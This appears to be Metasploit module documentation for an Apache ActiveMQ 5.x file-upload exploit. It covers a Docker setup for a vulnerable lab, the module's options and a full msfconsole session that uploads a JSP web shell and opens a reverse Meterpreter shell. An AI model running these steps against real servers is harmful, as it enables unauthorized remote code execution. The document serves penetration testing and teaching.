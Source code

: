 ## Vulnerable Application

This module exploits a vulnerability in Apache ActiveMQ 5.x before 5.14.0 which
allows remote attackers to upload and execute arbitrary files via an HTTP PUT
followed by an HTTP MOVE request. By default, a JSP web shell and Java
Meterpreter payload are uploaded to the `/fileserver/` path of a vulnerable
server, then moved via an HTTP MOVE request to either `/api/` or `/admin/`.
You should get a shell as the user running ActiveMQ.

### Configuring a Vulnerable Environment

To use a pre-built Docker image:

```
docker run -it -p 8161:8161 rmohr/activemq:5.10.0
```

To run an older version of ActiveMQ with Java 8, create a new `Dockerfile`:

```
FROM openjdk:8

ENV ACTIVEMQ_VERSION 5.9.0
ENV ACTIVEMQ apache-activemq-$ACTIVEMQ_VERSION

ENV ACTIVEMQ_HOME /opt/activemq

RUN \
    curl -O http://archive.apache.org/dist/activemq/apache-activemq/$ACTIVEMQ_VERSION/$ACTIVEMQ-bin.tar.gz && \
    mkdir -p /opt && \
    tar xf $ACTIVEMQ-bin.tar.gz -C /opt/ && \
    rm $ACTIVEMQ-bin.tar.gz && \
    ln -s /opt/$ACTIVEMQ $ACTIVEMQ_HOME && \
    useradd -r -M -d $ACTIVEMQ_HOME activemq && \
    chown activemq:activemq /opt/$ACTIVEMQ -R

USER activemq

WORKDIR $ACTIVEMQ_HOME
EXPOSE 61616 8161

CMD ["/bin/bash", "-c", "bin/activemq console"]
```

Next build and run the application:

```
docker build -t activemq:5.9.0 .
docker run -it -p 8161:8161 activemq:5.9.0
```

Verify the application is running by visiting
`http://localhost:8161/admin/test/` with the credentials `admin:admin`

## Verification Steps

1. Run the application locally.
1. Start msfconsole.
1. Do: `use multi/http/apache_activemq_upload_jsp`.
1. Do: `set rhosts <ip address of remote host> `.
1. Do: `set lhost <ip address of local machine`.
1. Do: `run`.
1. You should get a shell under the process running ActiveMQ.

## Options

### AutoCleanup

Remove web shells from the target system after callback is received (Default:
true)

### BasicAuthUser

User-supplied username (Default: admin)

### BasicAuthPass

User-supplied password associated with username (Default: admin)

### JSP

Desired name to assign to the JSP web shell when it is uploaded to the target
system. Do not include the `.jsp` extension (Default: randomly-generated string)

## Advanced Options

### UploadPath

Custom path into which web shells will be uploaded on the target system. If the
user determines that a nonstandard directory is able to execute .jsp files, the
user can specify this directory for exploitation (Default: attempt `/api/`; if that
fails, attempt `/admin/`)

## Scenarios

### Targeting ActiveMQ 5.9.0

```
$ msfconsole -q
msf6 > use multi/http/apache_activemq_upload_jsp
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > show options

Module options (exploit/multi/http/apache_activemq_upload_jsp):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   AutoCleanup    true             no        Remove web shells after callback is received
   BasicAuthPass  admin            yes       The password for the specified username
   BasicAuthUser  admin            yes       The username to authenticate as
   JSP                             no        JSP name to use, excluding the .jsp extension (default: random)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          8161             yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                           no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/apache_activemq_upload_jsp) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Uploading http://127.0.0.1:8161//opt/activemq/webapps/api//mNhqqxqibzBbGvw.jar
[*] Uploading http://127.0.0.1:8161//opt/activemq/webapps/api//mNhqqxqibzBbGvw.jsp
[*] Sending stage (58082 bytes) to 172.18.0.2
[+] Deleted /opt/activemq/webapps/api//mNhqqxqibzBbGvw.jar
[+] Deleted /opt/activemq/webapps/api//mNhqqxqibzBbGvw.jsp
[*] Meterpreter session 2 opened (172.18.0.1:4444 -> 172.18.0.2:52620) at 2021-06-14 14:55:52 -0500

meterpreter > getuid
Server username: activemq
meterpreter > sysinfo
Computer    : e0acc262f573
OS          : Linux 5.8.0-55-generic (amd64)
Meterpreter : java/linux
meterpreter >
```
